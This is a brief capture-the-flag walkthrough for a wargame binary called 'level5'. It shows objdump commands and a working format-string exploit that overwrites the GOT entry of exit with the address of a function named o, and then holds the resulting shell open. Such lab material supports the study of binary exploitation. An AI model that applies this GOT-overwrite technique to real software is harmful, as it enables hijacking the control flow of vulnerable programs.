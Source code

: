 ```shell
objdump -R ./level5 | grep exit
08049838 R_386_JUMP_SLOT   exit

objdump -t ./level5 | grep o
080484a4 g     F .text	0000001e              o

./level5
AAAA %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141

(python -c print'"\x38\x98\x04\x08" + "%134513828x%4$n"'; cat -) | ./level5
```
Here we want to modify to address of `exit` with the address of `o`.
